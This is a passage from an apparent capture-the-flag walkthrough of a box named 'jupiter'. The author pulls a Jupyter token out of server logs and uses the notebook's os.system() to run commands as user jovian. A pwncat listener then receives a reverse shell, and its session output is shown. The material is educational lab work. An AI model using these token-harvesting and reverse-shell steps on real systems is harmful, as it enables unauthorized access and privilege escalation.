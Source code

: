 I found the token in the logs, and the token from the most recent log entry successfully grants access to the notebook server page.

```bash
(remote) juno@jupiter:/home/juno$ cat /opt/solar-flares/logs/jupyter-2023-06-22-50.log
[W 13:50:26.518 NotebookApp] Terminals not available (error was No module named 'terminado')
[I 13:50:26.526 NotebookApp] Serving notebooks from local directory: /opt/solar-flares
[I 13:50:26.527 NotebookApp] Jupyter Notebook 6.5.3 is running at:
[I 13:50:26.527 NotebookApp] http://localhost:8888/?token=0aa258d2dae42795dd2c82a73a6879a2c2a93bfb2316977a
[I 13:50:26.527 NotebookApp]  or http://127.0.0.1:8888/?token=0aa258d2dae42795dd2c82a73a6879a2c2a93bfb2316977a
[I 13:50:26.527 NotebookApp] Use Control-C to stop this server and shut down all kernels (twice to skip confirmation).
[W 13:50:26.532 NotebookApp] No web browser found: could not locate runnable browser.
[C 13:50:26.532 NotebookApp]

    To access the notebook, open this file in a browser:
        file:///home/jovian/.local/share/jupyter/runtime/nbserver-1114-open.html
    Or copy and paste one of these URLs:
        http://localhost:8888/?token=0aa258d2dae42795dd2c82a73a6879a2c2a93bfb2316977a
     or http://127.0.0.1:8888/?token=0aa258d2dae42795dd2c82a73a6879a2c2a93bfb2316977a
[I 18:44:33.481 NotebookApp] 302 GET / (127.0.0.1) 0.980000ms
[I 18:44:33.617 NotebookApp] 302 GET /tree? (127.0.0.1) 1.520000ms
[W 18:54:02.909 NotebookApp] 401 POST /login?next=%2Ftree%3F (127.0.0.1) 2.830000ms referer=http://127.0.0.1:8888/login?next=%2Ftree%3F

```

Following the use of the token, I can now access the Python notebook that I found earlier on the Jupyter server.

![jupyter-server](./images/jupyter-server.png "Jupyter Serevr")

Given that the Python notebook is owned by `jovian`, I have the capability to execute system commands within the notebook using the `os` module, effectively executing commands as `jovian`.

![jupyter-command-execution](./images/jupyter-command-execution "Jupyter command execution")

With `os.system()`, I can either establish a reverse shell for remote access or inject my SSH keys into the system.

![jupyter-rev-shell](./images/jupyter-rev-shell.png "Jupyter reverse shell")

```bash
❯ pc -lp 9004
[15:11:59] Welcome to pwncat 🐈!                                               __main__.py:164
[15:12:02] received connection from 10.129.229.15:40834                             bind.py:84
[15:12:04] 10.129.229.15:40834: registered new host w/ db                       manager.py:957
(local) pwncat$
(remote) jovian@jupiter:/home/jovian$ id
uid=1001(jovian) gid=1002(jovian) groups=1002(jovian),27(sudo),1001(science)
(remote) jovian@jupiter:/home/jovian$

```
